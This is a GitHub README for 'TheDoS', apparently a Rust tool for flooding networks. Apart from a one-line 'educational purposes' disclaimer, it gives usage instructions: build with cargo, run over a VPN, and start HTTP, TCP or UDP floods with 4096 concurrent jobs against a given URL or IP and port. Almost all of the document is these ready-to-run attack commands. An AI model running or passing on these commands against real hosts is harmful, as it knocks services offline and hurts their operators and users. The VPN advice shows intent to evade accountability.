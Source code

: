 

<p align="center">
    <img src="https://github.com/wildonion/thedos/blob/master/onion.png"
</p>


## 🚨 Disclaimer

I AM **NOT** RESPONSIBLE FOR WHAT YOU WANT TO DO WITH THIS TOOL, THIS IS FOR EDUCATIONAL PURPOSES.

## ☠ TheDoS (The Developer of Sin)

Attack networks asynchronously by getting help of workers! 

<p align="center">
    <img src="https://github.com/wildonion/thedos/blob/master/log_nginx.png"
</p>

## 🚬 Usage

> run it over VPN

> default jobs are 4096

> build using: ```cargo build --release```

* start http attack with 4096 jobs: ```./thedos --http-addr http://example.app --jobs 4096```

* start tcp attack with 4096 jobs: ```./thedos --tcp-addr 93.184.216.34:24535 --jobs 4096```

* start udp attack with 4096 jobs: ```./thedos --udp-addr 93.184.216.34:24535 --jobs 4096```

OR

* start http attack with 4096 jobs: ```cargo run -- --http-addr http://example.app --jobs 4096```

* start tcp attack with 4096 jobs: ```cargo run -- --tcp-addr 93.184.216.34:24535 --jobs 4096```

* start udp attack with 4096 jobs: ```cargo run -- --udp-addr 93.184.216.34:24535 --jobs 4096```
